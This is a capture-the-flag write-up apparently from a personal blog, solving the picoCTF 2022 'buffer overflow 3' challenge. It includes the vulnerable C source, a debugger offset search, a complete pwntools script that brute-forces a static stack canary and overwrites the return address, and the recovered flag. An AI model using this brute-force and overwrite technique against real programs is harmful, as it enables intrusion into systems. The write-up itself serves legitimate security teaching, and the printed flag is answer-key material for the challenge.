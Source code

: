 ```yaml
---
layout: post
title: Stack canary - picoCTF 2022 buffer overflow 3
tags: [CTF, pwn]
---
```

> Do you think you can bypass the protection and get the flag? It looks like Dr. Oswal added a stack canary to this [program](https://artifacts.picoctf.net/c/493/vuln) to protect against buffer overflows. You can view source [here](https://artifacts.picoctf.net/c/493/vuln.c). And connect with it using: nc saturn.picoctf.net 54640

## Source Code
A stack smashing protection is implemented by reading a canary file into a global variable and comparing with a local canary variable.
```c
char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}
```

## Attack
First check how far the input buffer is from the canary. Break at the `memcmp` and check the arguments
```
─────────────────────────────────────────────── arguments (guessed) ────
memcmp@plt (
   [sp + 0x0] = 0xffffcba8 → "qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabda[...]",
   [sp + 0x4] = 0x804c054 → <global_canary+0> out dx, eax
)
gef➤  x $esp
0xffffcb10:     0xffffcba8
gef➤  pattern search *0xffffcba8
[+] Searching for '*0xffffcba8'
[+] Found at offset 64 (little-endian search) likely
[+] Found at offset 61 (big-endian search)
```
So 64 bytes dummy input before the canary.

Next is to somehow get the canary value. Usually there are two ways to do this: either by leaking using format-string vulnerability or by bruteforcing using the program state as an oracle. In this case we are bruteforcing because there are meaningful output for both successful and failed input. So bruteforcing 1 byte at a time looks like:
```
buffer+0x0  -> crash
buffer+0x 1 -> crash
...
buffer+0x41 -> no crash -> one byte found
---
buffer+0x4100 -> crash
...
buffer+0x4142 -> no crash
... repeat until we get all bytes
buffer+0x41424344 -> no crash -> canary = 0x41424344
```
After we get the canary, find where `eip` could be overwritten and the address of `win` and we get the flag. The following script is my solution:
```python
from pwn import *

context.terminal = ["/usr/bin/konsole", "-e"]

exploit = b'A' * 64

canary = [0, 0, 0, 0]

for i in range(4):
  c = 0x00
  while True:
    if c > 0xff: break
    log.info(f"Trying canary[{i}] = {hex(c)}")
    canary[i] = c
    p = process("./vuln") if args.LOCAL else remote("saturn.picoctf.net", "61060")
    p.recvuntil(b"> ")
    p.sendline(b"200")
    p.recvuntil(b"> ")
    p.send(exploit + bytes(canary[:(i+1)]))
    try:
      recv = p.recvline()
    except EOFError:
      log.warn("EOFError")
      p.close()
      c += 1
      continue
    if (recv.find(b"Ok") != -1):
      log.success(f"Found canary[{i}]: " + hex(c))
      canary.append(c)
      p.close()
      break
    else:
      p.close()
      c += 1

log.success(f"Canary: " + hex(canary[3] << 24 | canary[2] << 16 | canary[1] << 8 | canary[0]))

exploit += p32(0xdeadbeef) if args.LOCAL else p32(canary[3] << 24 | canary[2] << 16 | canary[1] << 8 | canary[0])

exploit += b"B"*16

exploit += p32(0x8049336)

p = process("./vuln") if args.LOCAL else remote("saturn.picoctf.net", "61060")
p.recvuntil(b"> ")
p.sendline(b"200")
p.recvuntil(b"> ")
p.send(exploit)
p.interactive()
```
```
[+] Canary: 0x64526942
[+] Opening connection to saturn.picoctf.net on port 61060: Done
[*] Switching to interactive mode
Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_10a64ab3}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to saturn.picoctf.net port 61060
```